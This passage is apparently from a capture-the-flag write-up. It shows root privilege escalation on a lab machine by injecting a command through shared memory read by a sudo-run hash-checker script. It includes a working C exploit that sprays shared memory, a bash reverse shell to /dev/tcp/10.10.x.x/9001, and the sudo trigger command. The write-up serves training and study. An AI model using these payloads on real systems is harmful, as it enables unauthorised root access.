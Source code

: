 We have control on `uVar5` because it's the content of the shared memory, it must contains `Leaked hash detected` and `>`. After the `>` character is the `uVar5` content, it will execute the formatted string `pcVar4` using `popen` function so we can inject a command. <br>
To exploit this scenario, we need to spam create shared memory segments so that when we run the `check_leak` program with a compromised username, it will use our shared memory instead.

Here's the C program to create a shared memory and inject malicious command :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <time.h>
#include <unistd.h>

int shmid;

int main(int argc, char *argv[]) {
  int seed = time(NULL);
  srand(seed);
  int shmkey = rand() % 0xfffff;
  shmid = shmget(shmkey, 0x400, 0x3b6);
  printf("shmid: 0x%x\n", shmkey);
  char *shm = (char *)shmat(shmid, NULL, 0);
  sprintf(shm, "Leaked hash detected at %s > %s \n", "bruh", "'; /tmp/pwn;#");
  shmdt(shm);
  return 0;
}
```

Create a reverse shell on `/tmp/pwn`.

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.x.x/9001 0>&1' > /tmp/pwn
chmod +x /tmp/pwn
```

Compile the code and run it inside a while loop.

```bash
gcc exploit.c -o exploit
chmod +x exploit
while true; do
  ./exploit
done
```

Open another session and execute the following command :

```bash
sudo /opt/hash-checker/check-leak.sh bob
```

And you should a reverse shell.

# Shell as root

## Root flag

```bash
root@checker:~# cat root.txt
cat root.txt
deadbeef254725ceda717de1892bfake
```
